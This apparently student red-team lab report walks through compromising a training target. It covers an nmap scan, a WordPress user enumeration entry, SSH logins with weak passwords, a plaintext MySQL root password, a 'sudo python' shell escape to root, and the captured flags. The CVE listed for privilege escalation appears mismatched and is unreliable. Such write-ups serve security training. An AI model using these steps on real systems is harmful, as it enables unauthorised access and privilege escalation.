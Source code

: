 # Final-Project
![](Images/Network%20Toplogy.png)

# Red Team: Summary of Operations
# Table of Contents
 - Exposed Services
 - Critical Vulnerabilities
 - Exploitation
# Exposed Services
- Fill out the information below:
  - Nmap scan results for each machine reveal the below services and OS details: nmap -sV 192.168.1.110  command to Scan Target 1
  
 ![](Images/Nmap%20Scan.png)
 
- This scan identifies the services below as potential points of entry:
### Target 1:
  - SSH
  - HTTP
  - rpcbind
  - netbios-ssn
  
  ![](Images/Nmap%20Port%20%26%20Services.png)



- The following vulnerabilities were identified on each target:
### Target 1:


| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |

![](Images/WPScan.png)


# Exploitation

- Fill out the details below. Include screenshots where possible:
- The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
### Target 1:

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/
  - grep -RE flag



                                      flag1: {b9bbcb33e11b80be759c4e844862482d}
 
 
![](Images/Flag%201%20%26%202.png) 

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/html/wordpress
  - mysql -u root -p
  - R@v3enSecurity
  - SELECT * FROM wp_post
 
                                      flag2: {fc3fd58dcdad9ab23faca6e9a36e581c}


![](Images/Flag%201%20%26%202.png)

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - mysql -u root -p
  - R@v3enSecurity
  - use wordpress;
  - SELECT * FROM wp_posts;

                                          

                                      flag3: {afc01ab56b50591e7dccf93122770cd2} 


 ![](Images/Flag%203.png)
 
 - Exploit Use:
   - Privilege escalation
   - ssh steven@192.168.1.110
   - sudo python -c ‘import os;os.system(“/bin/sh”)’ 
   - cd ../..
   - cat flag4                  
 

                                       flag4: {715dea6c055b9fe3337544932f2941ce}
 
 
![](Images/Flag%204.png)
                                      
                   
